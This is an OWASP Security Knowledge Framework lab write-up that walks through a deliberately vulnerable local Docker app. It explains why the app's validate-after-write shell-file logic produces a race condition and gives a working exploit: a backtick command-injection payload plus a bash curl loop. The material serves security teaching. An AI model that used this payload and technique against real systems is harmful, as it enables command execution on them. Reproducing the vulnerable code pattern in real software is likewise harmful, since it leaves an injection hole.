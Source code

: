 # KBID XXX - Race Condition

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:race-condition
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:race-condition
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

![Docker Image and write-up thanks to ING!](.gitbook/assets/ing_primary_logo.png)

## Reconnaissance

#### Step1

{% hint style="success" %}
 Congratulations, you won the race
{% endhint %} 

![](.gitbook/assets/race1.png)


All you need to do now is to add your name to the board and get your price. 

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](.gitbook/assets/race2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](.gitbook/assets/race3.png)

#### Step 2

This application suffers from a race condition vulnerability, but how can we identify it? 

If we look at the code we see that there are 4 functions being used:

1. `boot_validate(person)` 

	the function receives the username in input and executes the following:
	
	* deletes `"` and `\` from the username
	* opens `hello.sh` file
	* writes a command in it 
	* closes the file
	* logs some useful info 
	* checks if the username is in the format `[A-Za-z0-9 ]*`
	* returns the username if the regex succedes

2. `boot_clean()` that removes all the hello files (`hello.sh` and `hello.txt`)

3. `boot_run()` executes the `hello.sh` file

4. `boot_reset()` resets the system to the default settings

#### Step 3

If we intercept the traffic generate by the app we see that:

* a GET request is issued to validate the username and call `boot_validate(person)`

```text
GET /?person=test&action=validate
```

* clicking boot, will generate the request to execute the `boot_run()` function

```text
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `boot_run()` executing the `hello.sh` file. 

We also notice that the function `validate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```python

def boot_validate(person):
	#person = person.replace('"',"").replace("\\","")
	bootfile = open("hello.sh","w")
	bootfile.write("echo \"" + person + "\" > hello.txt")
	bootfile.close()

	os.system("echo 'hello.sh updated -- " + str(datetime.datetime.now()) + "' > log.txt")
	valid = os.popen("sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh").read()
	os.system("echo 'hello.sh cleaned -- " + str(datetime.datetime.now()) + "' >> log.txt")
	
	return valid

```

{% hint style="success" %}
 	Everything works fine, so where is the problem?
{% endhint %}

The problem is that in this case, we have a very small window to execute the `boot_run()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `boot_validate`
2. write the malicious payload in `hello.sh`
3. call `boot_run()`
4. `return valid` is called



## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using  '`' backtick. 

So our payload will be:

```
`id`

```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us: 

```sh
#!/bin/bash
while true; do 

	curl -i -s -k  -X $'GET' \
	    -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
	    $'http://localhost:5000/?action=run' | grep "Check this out"
done

```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate 
```

If we look in the logs we will see:


![](.gitbook/assets/race4.png)

{% hint style="success" %}
 Congratulations, you won the race for real now!!!!!!!!
{% endhint %} 

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}

